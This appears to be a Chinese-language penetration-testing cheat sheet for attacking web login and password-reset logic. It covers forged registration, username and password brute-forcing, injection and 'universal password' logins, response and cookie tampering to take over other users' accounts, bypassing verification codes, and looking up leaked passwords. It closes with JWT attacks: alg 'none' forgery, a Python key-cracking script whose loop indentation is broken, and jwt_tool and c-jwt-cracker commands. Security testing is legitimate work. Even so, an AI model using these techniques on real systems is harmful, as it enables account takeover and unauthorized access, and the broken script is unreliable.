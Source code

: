 ### 一些存在问题的逻辑
	任意用户注册
	可爆破用户名
	爆破用户名，密码
	用户名注入
	万能密码
	用户名Xss
	修改返回包信息，登入他人账户
	修改cookie中的参数，如user,adminid等
	HTML源码、JS等查看信息搜集一章
	后台登录参数修改为注册参数/reg、/register、/sign等
	登录失败返回包修改，例如“false”改为“true”，响应数值“0”改为“1”，登录后台。如果存在这些情况，一般前端Js、Html也可以直接找到后端对应的各类未授权访问接口
	Js、Html存在用户名密码注释信息
	根据系统查找系统对应的默认账号密码登录
	有些系统的密码为空，密码不填或者抓包后置空发送
	存在信息泄露手机号、邮箱、人名等可以到社工库查找对应的密码
	社工字典密码生成https://github.com/zgjx6/SocialEngineeringDictionaryGenerator
	页面无注册功能，通过Js或Html找到隐藏注册接口注册登录
	注册时验证码没有做好绑定，删除验证码参数，或者验证码参数为空可以注册
	验证码没有做好绑定，发送了验证码但是后端接收到任意验证码都可以注册、爆破、重置密码等
	
	密码重置
		1．重置一个账户，不发送验证码，设置验证码为空发送请求。
		2．发送验证码，查看相应包
	3．验证码生存期的爆破
		4．修改相应包为成功的相应包
		5．手工直接跳转到校验成功的界面
		6．两个账户，重置别人密码时，替换验证码为自己正确的验证码
		7．重置别人密码时，替换为自己的手机号
		8．重置自己的成功时，同意浏览器重置别人的，不发验证码
		9．替换用户名，ID，cookie，token参数等验证身份的参数
		10．通过越权修改他人的找回信息如手机/邮箱来重置 
### JWT攻击手法
  	https://jwt.io/#debugger-io
  	http://jsonwebtoken.io
  	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkFtYXppbmcgSGF4eDByIiwiZXhwIjoiMTQ2NjI3MDcyMiIsImFkbWluIjp0cnVlfQ.UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY
  	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9        # header
  	eyJzdWIiOiIxMjM0[...]kbWluIjp0cnVlfQ        # payload
  	UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY # signature
  #### 未校验签名
  	将原JWT串解码后修改用户名等身份认证的地方，生成新token发送请求
  #### 禁用哈希
	Alg代表加密方式，修改用户名等身份认证的地方，把HS256设置为none生成token发送请求，使用python的pyjwt模块
jwt.encode({'user':'admin','arg1':'value1','arg2':'value2'},algorithm='none',key='')
  #### 爆破弱密钥
    >pip3 install pyjwt
    >python3 crack.py
```python
import jwt
import termcolor

jwt_str = R'token'
with open('/root/password.txt') as f:
  for line in f:
  key_ = line.strip()
  try:
    jwt.decode(jwt_str,verify=True,key=key_)
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
    break
  except(jwt.exceptions.ExpiredSignatureError,jwt.exceptions.InvalidAudienceError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.ImmatureSignatureError):
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
  except jwt.exceptions.InvalidSignatureError:
    print('\r',' ' * 64, '\r\btry',key_,end='',flush=True)
    continue
else:
  print('\r','\bnot found.')
```
```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```
  #### jwt_tool
	git clone https://github.com/ticarpi/jwt_tool
	python3 -m pip install termcolor cprint pycryptodomex requests
	python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
  #### c-jwt-cracker
	git clone https://github.com/brendan-rius/c-jwt-cracker
	./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE